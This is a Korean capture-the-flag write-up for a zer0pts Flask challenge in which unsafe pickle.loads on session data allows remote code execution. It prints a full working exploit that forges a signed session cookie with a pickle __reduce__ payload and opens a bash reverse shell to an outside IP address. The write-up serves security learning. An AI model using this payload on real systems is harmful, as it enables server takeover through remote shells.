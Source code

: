 ```python
        savedata = flask.session.get('savedata', None)
        data = pickle.loads(base64.b64decode(savedata))
    except:
        data = [{"date": now(), "text": "", "title": "*New Note*"}]
    
    return data
```
<strong>/note를 보면 load() 함수를 호출하는 것을 볼 있습니다. load() 함수는 세션 값에서 `savedata`라는 값을 가져와서 base64 디코딩을 하고, pickle.loads() 함수의 인자로 넘겨주는 것을 볼 수 있습니다. 바로 여기서 RCE 취약점이 발생합니다. 해당 취약점에 자세한 내용은 구글을 통해 확인할 수 있습니다.</strong>
![](https://github.com/wjddnjs33/image2/blob/main/스크린샷%202020-12-27%20오후%201.12.42.png?raw=true)
<strong>Flask 세션 관련 내용을 정확히 숙지하고 있지 않아서 구글에 검색을 해보니 `sessions.SecureCookieSessionInterface`, `Flask` 두 함수를 이용하면 시크릿 키를 이용해 세션 값을 만들어 줄 수 있는 것을 알 수 있었습니다. 물론 Flask 함수를 쓰지 않고 클래스를 생성해서도 줄 수 있습니다.</strong><br><br>

<strong>그러니 시크릿 키를 이용해서 세션 값을 변조하고, 변조한 세션 값을 가지고, /note/<int:id>로 접근을 해주면 load() 함수의 pickle.loads() 함수가 호출이 돼서 RCE가 발생하게 됩니다. 

<b>*<span style="color:#631F9C">&#62;</span> Exploit*</b>
```python
   1   │ import os, sys, base64, pickle, requests
   2   │ from flask import Flask
   3   │ from flask.sessions import SecureCookieSessionInterface
   4   │
   5   │ cmd = "bash -c 'bash -i >& /dev/tcp/141.164.52.207/12345 0>&1'"
   6   │ key_ = b'$\x9e\x15\x12\xd7\x1d\x9c\x01\x05\x91\x1332\xd9(m'
   7   │ class RCE(object):
   8   │     def __reduce__(self):
   9   │         return (os.system,(cmd,))
  10   │
  11   │ def exploit():
  12   │     app = Flask("app")
  13   │     app.secret_key = key_
  14   │
  15   │     sscsi = SecureCookieSessionInterface()
  16   │     signingSerializer = sscsi.get_signing_serializer(app)
  17   │
  18   │     session = signingSerializer.dumps({'savedata':base64.b64encode(pickle.dumps(RCE()))})
  19   │     print("Sessions : {}".format(session))
  20   │     requests.get('http://localhost:8001/note/1', cookies = {'session':session})
  21   │
  22   │ if __name__ == '__main__':
  23   │     print("[+] RCE in Pickle Start")
  24   │     exploit()
```
<strong>그래서 파이썬을 이용해서 위와 같이 RCE POC를 작성해주었습니다. 처음에는 `nc`를 이용해서 쉘을 딸려 했지만 잘 되지 않았습니다. 그래서 그냥 코드 미스인 줄 알았는데 `bash -c`를 이용해서 쉘을 따주니 잘 되었습니다.</strong>
![](https://github.com/wjddnjs33/image2/blob/main/스크린샷%202020-12-27%20오후%201.35.23.png?raw=true)
<strong>RCE POC를 돌려주니 쉘이 잘 따지는 것을 볼 수 있고, flag도 볼 수 있었습니다. ( nc 명령어를 확인해보니 명령어 자체가 없었음 )</strong>

`FLAG : zer0pts{fl4sk_s3ss10n_4nd_pyth0n_RCE}`

---